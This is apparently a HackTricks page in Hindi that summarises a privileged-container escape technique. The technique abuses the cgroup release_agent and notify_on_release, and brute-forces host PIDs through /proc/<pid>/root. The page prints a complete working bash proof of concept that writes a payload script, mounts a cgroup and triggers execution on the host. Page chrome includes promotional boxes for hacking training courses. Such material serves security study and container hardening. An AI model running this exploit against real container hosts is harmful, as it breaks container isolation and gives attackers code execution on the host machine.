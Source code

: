 {% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
{% endhint %}

अधिक जानकारी के लिए **[https://ajxchapman.github.io/containers/2020/11/19/privileged-container-escape.html](https://ajxchapman.github.io/containers/2020/11/19/privileged-container-escape.html)** से ब्लॉग पोर्ट देखें। यह केवल एक सारांश है:

यह तकनीक **कंटेनर के भीतर से होस्ट कोड निष्पादित करने** के लिए एक विधि का वर्णन करती है, जो स्टोरेज-ड्राइवर कॉन्फ़िगरेशन द्वारा उत्पन्न चुनौतियों को पार करती है जो होस्ट पर कंटेनर की फ़ाइल प्रणाली पथ को अस्पष्ट करती हैं, जैसे कि काता कंटेनर या विशिष्ट `devicemapper` सेटिंग्स।

मुख्य चरण:

1. **प्रोसेस आईडी (PIDs) का पता लगाना:** लिनक्स छद्म-फ़ाइल प्रणाली में `/proc/<pid>/root` प्रतीकात्मक लिंक का उपयोग करके, कंटेनर के भीतर किसी भी फ़ाइल को होस्ट की फ़ाइल प्रणाली के सापेक्ष एक्सेस किया जा सकता है। यह होस्ट पर कंटेनर की फ़ाइल प्रणाली पथ को जानने की आवश्यकता को दरकिनार करता है।
2. **PID बाशिंग:** होस्ट पर PIDs के माध्यम से खोजने के लिए एक ब्रूट फोर्स दृष्टिकोण का उपयोग किया जाता है। यह `/proc/<pid>/root/<file>` पर एक विशिष्ट फ़ाइल की उपस्थिति की जांच करके किया जाता है। जब फ़ाइल मिलती है, तो यह संकेत करता है कि संबंधित PID उस प्रक्रिया से संबंधित है जो लक्षित कंटेनर के भीतर चल रही है।
3. **निष्पादन को ट्रिगर करना:** अनुमानित PID पथ को `cgroups release_agent` फ़ाइल में लिखा जाता है। यह क्रिया `release_agent` के निष्पादन को ट्रिगर करती है। इस चरण की सफलता को आउटपुट फ़ाइल के निर्माण की जांच करके पुष्टि की जाती है।

### शोषण प्रक्रिया

शोषण प्रक्रिया में अधिक विस्तृत क्रियाओं का एक सेट शामिल है, जिसका उद्देश्य कंटेनर के भीतर चल रही प्रक्रिया के सही PID का अनुमान लगाकर होस्ट पर एक पेलोड निष्पादित करना है। यह इस प्रकार विकसित होता है:

1. **पर्यावरण प्रारंभ करें:** होस्ट पर एक पेलोड स्क्रिप्ट (`payload.sh`) तैयार की जाती है, और cgroup हेरफेर के लिए एक अद्वितीय निर्देशिका बनाई जाती है।
2. **पेलोड तैयार करें:** पेलोड स्क्रिप्ट, जिसमें होस्ट पर निष्पादित होने वाले आदेश होते हैं, लिखी जाती है और इसे निष्पादन योग्य बनाया जाता है।
3. **Cgroup सेट करें:** cgroup को माउंट और कॉन्फ़िगर किया जाता है। यह सुनिश्चित करने के लिए `notify_on_release` ध्वज सेट किया जाता है कि जब cgroup को जारी किया जाता है तो पेलोड निष्पादित होता है।
4. **ब्रूट फोर्स PID:** एक लूप संभावित PIDs के माध्यम से दोहराता है, प्रत्येक अनुमानित PID को `release_agent` फ़ाइल में लिखता है। यह प्रभावी रूप से पेलोड स्क्रिप्ट को `release_agent` के रूप में सेट करता है।
5. **निष्पादन को ट्रिगर और जांचें:** प्रत्येक PID के लिए, cgroup का `cgroup.procs` लिखा जाता है, यदि PID सही है तो `release_agent` के निष्पादन को ट्रिगर करता है। लूप तब तक जारी रहता है जब तक पेलोड स्क्रिप्ट का आउटपुट नहीं मिल जाता, जो सफल निष्पादन को इंगित करता है।

ब्लॉग पोस्ट से PoC:
```bash
#!/bin/sh

OUTPUT_DIR="/"
MAX_PID=65535
CGROUP_NAME="xyx"
CGROUP_MOUNT="/tmp/cgrp"
PAYLOAD_NAME="${CGROUP_NAME}_payload.sh"
PAYLOAD_PATH="${OUTPUT_DIR}/${PAYLOAD_NAME}"
OUTPUT_NAME="${CGROUP_NAME}_payload.out"
OUTPUT_PATH="${OUTPUT_DIR}/${OUTPUT_NAME}"

# Run a process for which we can search for (not needed in reality, but nice to have)
sleep 10000 &

# Prepare the payload script to execute on the host
cat > ${PAYLOAD_PATH} << __EOF__
#!/bin/sh

OUTPATH=\$(dirname \$0)/${OUTPUT_NAME}

# Commands to run on the host<
ps -eaf > \${OUTPATH} 2>&1
__EOF__

# Make the payload script executable
chmod a+x ${PAYLOAD_PATH}

# Set up the cgroup mount using the memory resource cgroup controller
mkdir ${CGROUP_MOUNT}
mount -t cgroup -o memory cgroup ${CGROUP_MOUNT}
mkdir ${CGROUP_MOUNT}/${CGROUP_NAME}
echo 1 > ${CGROUP_MOUNT}/${CGROUP_NAME}/notify_on_release

# Brute force the host pid until the output path is created, or we run out of guesses
TPID=1
while [ ! -f ${OUTPUT_PATH} ]
do
if [ $((${TPID} % 100)) -eq 0 ]
then
echo "Checking pid ${TPID}"
if [ ${TPID} -gt ${MAX_PID} ]
then
echo "Exiting at ${MAX_PID} :-("
exit 1
fi
fi
# Set the release_agent path to the guessed pid
echo "/proc/${TPID}/root${PAYLOAD_PATH}" > ${CGROUP_MOUNT}/release_agent
# Trigger execution of the release_agent
sh -c "echo \$\$ > ${CGROUP_MOUNT}/${CGROUP_NAME}/cgroup.procs"
TPID=$((${TPID} + 1))
done

# Wait for and cat the output
sleep 1
echo "Done! Output:"
cat ${OUTPUT_PATH}
```
{% hint style="success" %}
सीखें और AWS हैकिंग का अभ्यास करें:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
सीखें और GCP हैकिंग का अभ्यास करें: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks का समर्थन करें</summary>

* [**सदस्यता योजनाएँ**](https://github.com/sponsors/carlospolop) देखें!
* **हमारे** 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) में शामिल हों या **हमारा अनुसरण करें** **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **हैकिंग ट्रिक्स साझा करें और** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) गिटहब रिपोजिटरी में PRs सबमिट करें।

</details>
{% endhint %}
</details>
{% endhint %}
